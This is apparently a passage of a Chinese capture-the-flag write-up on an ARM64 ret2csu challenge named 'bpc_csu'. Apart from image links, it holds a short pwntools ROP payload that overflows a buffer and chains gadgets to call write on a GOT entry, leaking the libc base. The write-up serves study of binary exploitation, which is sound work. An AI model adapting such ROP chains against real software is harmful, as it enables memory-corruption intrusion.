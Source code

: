 ### 例题 bpc\_csu

[![](assets/1700442742-41ca36490ea638c0c98f033a8f2ed7f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183640-3133166c-8535-1.png)

‍

[![](assets/1700442742-7d1e24f7fe1e29990863bb47d01f147e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183644-33974fc2-8535-1.png)

[![](assets/1700442742-e9e4a138759fe9d3ec144d7669f31504.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183647-35c56a7c-8535-1.png)

‍

开始布置`write(1,write@got.plt,0x8)`​，来获取 libc 基址

```bash
pl = b'a'*0x88 + p64(g1) #x29  x30
pl+= p64(main) + p64(0x100000000) #其实这里写什么都无所谓，主要是起个抬栈作用
pl+= p64(0) + p64(g2) #x29   x30
pl+= p64(0) + p64(1) #x19 --0   x20 --1
pl+= p64(elf.got['write']) + p64(1) ##x21 --addr  x22 --x0
pl+= p64(elf.got['write']) + p64(0x8) #x23 --x1  x24 --x2
pl+= p64(0) +p64(main) #x29   x30
```

[![](assets/1700442742-7ffef76da3831a77c2e3fe7a5a7aeae2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183657-3b89a9b4-8535-1.png)

[![](assets/1700442742-f322a40325d883f3eb8c1a639c45f436.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183701-3df90ec4-8535-1.png)
